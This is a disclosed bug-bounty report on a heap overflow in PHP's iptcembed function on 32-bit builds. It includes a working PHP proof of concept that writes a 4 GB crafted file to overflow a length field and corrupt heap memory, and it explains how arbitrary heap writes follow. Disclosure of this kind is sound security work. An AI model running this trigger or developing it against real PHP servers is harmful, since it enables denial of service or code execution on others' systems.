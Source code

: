 # Trivial age-old heap overflow in 32-bit PHP

## Report Details
- **Report ID**: 112863
- **URL**: https://hackerone.com/reports/112863
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-01-26T13:06:43.154Z
- **Disclosed**: 2019-11-12T09:36:51.959Z

## Reporter
- **Username**: jbremer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Given one is able to execute a PHP file there exists a trivial heap overflow in the `ext/standard/iptc.c` module, a module which exports the `iptcembed` and `iptcparse` functions. It should be noted that the implementation of these functions is - in some countries - allowed to drink beer and get driving lessons.

Initially implemented in the good ol' [Internet bubble][impl] it has since been [patched][] as the function showed too much power to the internet as it was mastering the heap in ways not seen before. Since then [a][p0] [number][p1] [of][p2] [clear][p3] [improvements][p4] have been seen while still remaining heap master in disguise.

[impl]: https://github.com/php/php-src/commit/ad0076ee5318bba0c055c28271d6810c53db6f40#diff-98113f2c152c3d95d366989462658a39R232
[patched]: https://github.com/php/php-src/commit/ec33704c3929fc874ef434f623a58d34acfffd82
[p0]: https://github.com/php/php-src/commit/c0404f46311e5b519dc51697e181bb39ca8d09d2#diff-98113f2c152c3d95d366989462658a39L225
[p1]: https://github.com/php/php-src/commit/511463854b2ea520604ec22c0d0d80cc329727ae
[p2]: https://github.com/php/php-src/commit/cce7545d18ed7774b3938565dd1c770c9a14bbb9#diff-98113f2c152c3d95d366989462658a39L230
[p3]: https://github.com/php/php-src/commit/312181bc13d99ce089aeb16542db9f6c8a11f108
[p4]: https://github.com/php/php-src/commit/887e5ad110eb87c3969b0e7f12a2b2fd9fb9c0b0

Following is a POC that will trigger a memory corruption. For those with more time on their hands it should be obvious that this can be exploited further on 32-bit versions of PHP. Unfortunately it'd appear that, since one is not able to `ftruncate()` a `0xffffffffffffffff`-sized file on any filesystem (as far as I'm aware?), it is not possible to wraparound the 64-bit length variable that is allocated in 64-bit versions of PHP.

```php
<?php

if(file_exists("heapyolo") == 0) {
    $fp = fopen("heapyolo", "wb");

    fwrite($fp, "\xff\xd8\xff\xe0\x00\x02\x00\xd9");
    for ($i = 0; $i < 4096; $i++) {
        fwrite($fp, str_repeat("A", 1024*1024));
    }

    fclose($fp);
}

iptcembed(str_repeat("A", 1024*1024), "heapyolo");
?>
```

The POC writes a legitimate `iptc`-compatible header followed by 4 GB of data. In combination with the constant integers and length of the `iptcdata` the filesize then overflows the 32-bit length field which [is then allocated][alloc].
By using the `M_APP0` switch/case entry we're then able to overwrite heap memory with arbitrary values and arbitrary length as passed along by the `iptcdata` variable. It should be noted that this can be done multiple times - as long as PHP doesn't crash - and that we only have to write the 4GB file once due to this construct.

[alloc]: https://github.com/php/php-src/blob/master/ext/standard/iptc.c#L207

Well, that's enough The Internet for me for today. Thanks!

## Attachments
No attachments
